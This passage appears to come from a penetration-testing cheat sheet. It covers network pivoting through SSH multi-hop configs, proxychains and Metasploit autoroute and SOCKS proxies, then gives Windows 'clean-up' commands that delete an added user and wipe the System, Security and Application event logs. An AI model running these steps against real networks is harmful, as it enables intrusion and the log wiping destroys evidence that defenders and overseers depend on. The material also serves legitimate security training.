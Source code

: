 
##### SSHuttle Usage Tips
- Leave sshuttle running in dedicated terminal
- Verify routing with `ip route show`
- Test connection with ping/curl
- Monitor for connection issues
- Consider using tmux/screen for persistence

##### Multi-Hop Pivoting
```bash
# SSH Config for Multi-Hop
cat ~/.ssh/config
Host pivot1
    HostName 10.10.10.10
    User admin
    IdentityFile ~/.ssh/id_rsa

Host target
    HostName 192.168.1.10
    User admin
    ProxyCommand ssh -W %h:%p pivot1

# Proxychains through Multiple Hops
# Edit /etc/proxychains4.conf
[ProxyList]
socks4 127.0.0.1 1080
socks4 127.0.0.1 1081

# Create SSH Tunnels
ssh -D 1080 user@pivot1
ssh -D 1081 -o ProxyCommand='nc -x 127.0.0.1:1080 %h %p' user@pivot2
```

#### Metasploit Pivoting
```bash
# After getting meterpreter session
run autoroute -s 10.10.10.0/24

# Start socks proxy
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 1080
run

# Use with proxychains
proxychains nmap -sT -Pn 192.168.1.1
```

#### Clean-Up Procedures

##### Windows Clean-Up
```batch
REM Remove added users
net user backup /delete

REM Clear logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

REM Remove scheduled tasks
schtasks /delete /tn "MyTask" /f

REM Clean temp files
del /f /q %temp%\*
```